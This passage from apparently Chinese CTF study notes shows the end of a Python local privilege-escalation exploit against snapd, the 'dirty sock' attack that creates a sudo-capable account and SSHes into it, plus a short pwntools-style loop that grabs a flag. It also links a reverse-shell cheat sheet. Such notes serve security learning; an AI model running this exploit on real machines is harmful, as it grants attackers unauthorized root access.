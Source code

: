```python
    if 'cannot find user' in http_reply:
        print("[!] Could not find user in the snap store... did you follow"
              " the instructions?")
        print("Here is the API reply:")
        print(http_reply)
        sys.exit()

    if not username:
        print("[!] Something went wrong... Here is the API reply:")
        print(http_reply)
        sys.exit()

    # SSH into localhost with our new root account
    print("[+] Success! Enjoy your new account with sudo rights!")
    cmd1 = 'chmod 600 ' + args.key
    cmd2 = 'ssh ' + username[0] + '@localhost -i ' + args.key
    os.system(cmd1)
    os.system(cmd2)

    print("[+] Hope you enjoyed your stay!")
    sys.exit()



def main():
    """Main program function"""

    # Gotta have a banner...
    print(BANNER)

    # Process the required arguments
    args = process_args()

    # Create a random name for the dirty socket file
    sockfile = create_sockfile()

    # Bind the dirty socket to the snapdapi
    client_sock = bind_sock(sockfile)

    # Exploit away...
    add_user(args, client_sock)

    # Remove the dirty socket file
    os.remove(sockfile)


if __name__ == '__main__':
    main()
```

## 概率性脚本 连续化
加一行read如果eof会直接close掉
```python
    p.sendline("cat flag")
	data=p.readline()
	if "xctf" in data:
		print 1
		f=open("./flag.txt","w")
		f.write(data)
		f.close()
```


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/